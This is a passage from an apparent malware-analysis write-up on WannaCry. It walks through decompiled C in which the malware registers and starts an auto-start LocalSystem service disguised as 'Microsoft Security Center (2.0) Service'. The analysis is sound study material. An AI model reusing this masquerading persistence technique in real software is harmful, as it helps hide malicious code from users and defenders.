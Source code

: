 ### ArgumentParser
This function in will run two different functions. The name is kind of misleading, as no operations are done on the passed arguments.
```c
int ArgumentsParser()
{
  CreateService();
  UnpackBinary();
  return 0;
}
```
Let's take a closer look at both of these functions.
### CreateService
The `CreateService` function is as follows:
```c
sprintf(security_filename, "%s -m security", FileNameSelf);
scm_handle = OpenSCManagerA(0, 0, 0xF003Fu);  
if ( !scm_handle )
  return 0;
service_handle = CreateServiceA(
                   scm_handle,
                   ServiceName,               // mssecsvc2.0
                   DisplayName,               // Microsoft Security Center (2.0) Service
                   0xF01FFu,                  // SERVICE_ALL_ACCESS
                   0x10u,                     // SERVICE_WIN32_OWN_PROCESS
                   2u,                        // SERVICE_AUTO_START
                   1u,                        // SERVICE_ERROR_NORMAL
                   security_filename,
                   0,
                   0,
                   0,
                   0,                         // Uses LocalSystem Account.
                   0);
if ( service_handle )
{
  StartServiceA(service_handle, 0, 0);
  CloseServiceHandle(service_handle);
}
CloseServiceHandle(scm_handle);
return 0;
```
Now, taking a closer look at this, we can determine a few interesting things.
First, the process will use the executable name it retrieved in the `WannaCryMain` function to create a string with the executable path and two additional but unused arguments. 
Using this new string, the process will generate a service with the deceivingly Microsofty name of `mssecsvc2.0` and the display name of `Microsoft Security Center (2.0) Service`. 

After creating the service, the process will start the service with the `StartServiceA` call. The service launches the same executable again with the addition of the two parameters, `-m security`. The actual arguments are unimportant, I assume these were decided on to give this the illusion of being authentic. Flags which conform to the norms are less suspicious than random strings, after all. We know that the entire `ArgumentsParser` function will be skipped in new newly created process, due to the argument length check.
